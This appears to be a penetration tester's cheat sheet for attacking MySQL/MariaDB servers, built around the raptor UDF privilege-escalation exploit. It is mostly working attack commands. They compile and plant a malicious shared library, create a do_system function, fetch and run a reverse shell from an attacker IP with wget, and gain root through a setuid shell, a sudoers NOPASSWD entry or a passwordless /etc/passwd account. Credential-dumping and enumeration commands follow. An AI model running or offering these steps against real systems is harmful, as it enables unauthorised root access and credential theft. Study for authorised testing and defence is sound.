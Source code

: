# MYSQL 3306

### MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library 1518.c (local db ser)

{% code overflow="wrap" %}
```
$ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c 1518.c
 * $ gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/j0hn/1518.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/1518.so';
 * mysql> create function do_system returns integer soname '1518.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown j0hn.j0hn /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
```
{% endcode %}

#### remote db ser example = hex approach instead of load\_file

<pre><code>mariadb (connect from kali to remote db ser need use hex approach):
* mysql> use mysql;
 * mysql> create table foo(line blob);
 set @pwn = 0x7f... ;
 select @@plugin_dir;
 * mysql> select binary @pwn into dumpfile '/home/dev/plugin/1518.so';
 * mysql> create function do_system returns integer soname '1518.so';
 * mysql> select * from mysql.func;
select do_system('wget http://192.168.119.173/rev');
select do_system('chmod +x ./rev');
<strong>select do_system('./rev');
</strong></code></pre>

{% hint style="info" %}
not necessarily a root user, may still need get .elf rev shell first
{% endhint %}

generate hex

```
xxd -p 1518.so | tr -d '\n' > 1518.so.hex (need 0x prefix for set @pwn)
```

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/mysql-mariadb" %}

<pre><code>using do_system custom function to change root user password:
mysql >> select do_system('echo "pass123" | passwd --stdin root');

or

select do_system('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
\! sh
/tmp/sh

or
<strong>'echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers'
</strong><strong>
</strong><strong>or
</strong><strong>'echo "dummy::0:0::/root:/bin/bash" >>/etc/passwd'
</strong></code></pre>

### Credentials

{% code overflow="wrap" %}
```
select user,authentication_string from user

grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"

cat /etc/mysql/debian.cnf
```
{% endcode %}

### enum

{% code overflow="wrap" %}
```
SHOW Grants;
show variables; 
#(check hostname, plugin_dir, tmpdir, version, version_compile_machine)

```
{% endcode %}
